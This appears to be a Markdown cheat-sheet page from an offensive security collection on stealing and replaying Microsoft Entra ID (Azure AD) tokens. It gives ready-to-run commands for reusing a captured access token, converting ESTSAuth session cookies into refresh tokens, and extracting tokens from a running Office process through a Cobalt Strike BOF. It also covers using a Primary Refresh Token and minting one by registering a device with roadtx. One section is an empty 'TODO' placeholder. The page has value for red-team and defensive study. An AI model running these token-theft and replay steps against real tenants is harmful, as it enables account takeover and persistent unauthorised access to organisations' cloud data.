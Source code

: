 # Microsoft Entra ID / Azure Active Directory


## Access Token

Decode access tokens: [jwt.ms](https://jwt.ms/)

* Use token
    ```ps1
    # use the jwt
    $token = "eyJ0eXAiO..."
    $secure = $token | ConvertTo-SecureString -AsPlainText -Force
    Connect-MgGraph -AccessToken $secure

    # whoami
    Get-MgContext
    Disconnect-MgGraph
    ```


## Refresh Token

* Requesting a token using credentials
    ```ps1
    TODO
    ```
* 


### Get a Refresh Token from ESTSAuth Cookie

`ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`.

```ps1
TokenTacticsV2> Get-AzureTokenFromESTSCookie -ESTSAuthCookie "0.AS8"
TokenTacticsV2> Get-AzureTokenFromESTSCookie -Client MSTeams -ESTSAuthCookie "0.AbcAp.."
```


### Get a Refresh Token from Office process

* [trustedsec/CS-Remote-OPs-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF)
```ps1
load bofloader
execute_bof /opt/CS-Remote-OPs-BOF/Remote/office_tokens/office_tokens.x64.o --format-string i  7324
```


## Primary Refresh Token

* Use PRT token
    ```ps1
    roadtx browserprtauth -prt roadtx.prt -url http://www.office.com
    ```


### Extract PRT on Device with TPM

* No method known to date.


### Generate a PRT by registering a device

```ps1
roadtx interactiveauth -u user.lastname@domain.local -p password123 -r devicereg
roadtx device -n devicename
roadtx prt -u user.lastname@domain.local -p password123 –-key-pem devicename.key –-cert-pem devicename.pem
roadtx prtenrich –prt roadtx.prt
roadtx prt -u user.lastname@domain.local -p password123 –-key-pem devicename.key –-cert-pem devicename.pem -r 0.AVAApQL<snip>
```


## References

* [Hacking Your Cloud: Tokens Edition 2.0 - Edwin David - April 13, 2023](https://trustedsec.com/blog/hacking-your-cloud-tokens-edition-2-0)
* [Microsoft 365 Developer Program](https://developer.microsoft.com/en-us/microsoft-365/dev-program)